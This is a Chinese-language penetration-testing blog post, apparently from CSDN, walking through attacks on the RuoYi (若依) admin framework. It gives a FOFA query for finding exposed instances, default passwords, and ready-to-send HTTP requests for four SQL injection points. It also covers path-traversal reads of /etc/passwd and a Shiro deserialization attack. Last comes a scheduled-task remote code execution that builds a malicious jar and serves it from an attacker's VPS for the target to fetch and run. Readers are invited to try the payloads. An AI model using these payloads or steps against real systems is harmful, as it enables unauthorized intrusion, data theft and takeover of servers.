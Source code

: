# 原创
：  渗透测试--实战若依ruoyi框架

# 渗透测试--实战若依ruoyi框架

### 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：前言

最近在挖某src的时候，碰到了一套若依，本以为啥都没有，结果随手一测若依存在的历史漏洞基本都有。是通过很奇怪的信息收集方式找到这个站的，分享出来让大家看看。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/85f1103e2a5e94cc98684ac3e010e369.jpeg"/><br/> 老司机一看就明白了我在找什么，虽然说机会不大，但偏偏就让我遇到了。

### 二：ruoyi（若依）框架

若依（Ruoyi）框架是一款基于 Spring Boot 2.5.5、Spring Cloud 2020.0、OAuth2 与 JWT 鉴权等核心技术，同时也支持Spring Security、Apache Shiro 等多种安全框架，以及 Mybatis、JPA 等流行持久化框架，提供了许多常用的功能模块，包括系统管理、监控管理、任务调度、代码生成、文件上传、高德地图等功能的快速开发平台。<br/> 若依框架采用前后端分离的模式，基于Vue.js实现了前端UI框架，采用Feign作为服务调用，通过 Nacos 实现统一配置管理，是一款高效率、低封装、面向前端的开发框架。<br/> fofa语句：`app="若依-管理系统"`

### 三：ruoyi（若依）漏洞

#### 前端存储账号密码

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d8cf46bdcac3725841e435cb0fc7f278.jpeg"/><br/> 这个站进来是这样的，没错就是账号密码存储在前端，本来想试试弱口令的，这账号密码都摆着了，（狗头）<br/> 不过大家遇见若依一般是不会有这种情况的，下面是若依系统常见的弱口令：<br/> admin/admin123<br/> ry/admin123<br/> ruoyi/admin123<br/> 识别若依框架也很简单，大概就长这样，如果验证码是简单计算，存在记住密码也可能是若依<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/72b00b4ca8202d28167f92232b5f29b0.jpeg"/>

#### SQL注入1

/system/role/list端点存在注入<br/> POC：

```
POST /system/role/list HTTP/1.1
Host: ip:port
Content-Length: 179
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: yourcookie
Connection: close

pageSize=&amp;pageNum=&amp;orderByColumn=&amp;isAsc=&amp;roleName=&amp;roleKey=&amp;status=&amp;params[beginTime]=&amp;params[endTime]=&amp;params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

```

#### SQL注入2

/system/dept/edit此接口存在SQL注入

```
POST /system/dept/edit HTTP/1.1
Host: ip:port
Content-Length: 111
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: yourcookie
Connection: close

DeptName=1&amp;DeptId=100&amp;ParentId=12&amp;Status=0&amp;OrderNum=1&amp;ancestors=0)or(extractvalue(1,concat((select user()))));#

```

#### SQL注入3

/system/role/export端点存在注入<br/> poc：

```
POST /system/role/export HTTP/1.1
Host: ip:port
Content-Length: 75
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: yourcookie
Connection: close

params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

```

#### SQL注入4

/tool/gen/createTable端点<br/> 如果页面如下则可能存在漏洞<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ad01e1c36f0f916b1f64f228b689a1b0.jpeg"/><br/> 这里没有漏洞，我把poc放上来大家可以试试

```
POST

sql=CREATE table ss1 as SELECT/**/* FROM sys_job WHERE 1=1 union/**/SELECT/**/extractvalue(1,concat(0x7e,(select/**/version()),0x7e));

```

#### 后台任意文件读取

```
/common/download/resource?resource=/profile/../../../../Windows/win.ini

```

```
/common/download/resource?resource=/profile/../../../../etc/passwd

```

#### shiro反序列化

若依系统是使用了shiro的，所以可以直接当shiro来打。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4ad92e7512b925d65318fd07e15e0435.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9eadd9ebbc926d6bf9d1c777a77e69bd.jpeg"/><br/> 直接一把梭哈<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7761fef6a760c1e6e8ef5c1f412363c8.jpeg"/>

#### 后台定时任务RCE

由于若依后台计划任务处，对于传入的“调用目标字符串”没有任何校验，导致攻击者可以调用任意类、方法及参数触发反射执行命令。影响版本：RuoYi&lt;4.6.2<br/> 1.下载exp<br/> https://github.com/artsploit/yaml-payload<br/> 2.修改 AwesomeScriptEngineFactory.java文件，exec里改成要执行的命令<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/48527210c9d61a2b2d78eced8b2e22e0.jpeg"/><br/> 3.编译<br/> javac src/artsploit/AwesomeScriptEngineFactory.java

jar -cvf yaml-payload.jar -C src/ .<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7bb9f7b4d4991d3f4bb8ee38bb5ac326.jpeg"/><br/> 就会生成一个.jar文件，放在vps上，开启一个http服务<br/> python3 -m http.server 5555<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a1955bf7f46211b3790a533a01c31004.jpeg"/><br/> 然后回到若依后台，添加一个计划任务，这里直接用工具了<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4cbe234b30a18212ba661fbdd0b40ced.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/06c8db5cbc29ad395566c599701b9b91.jpeg"/>
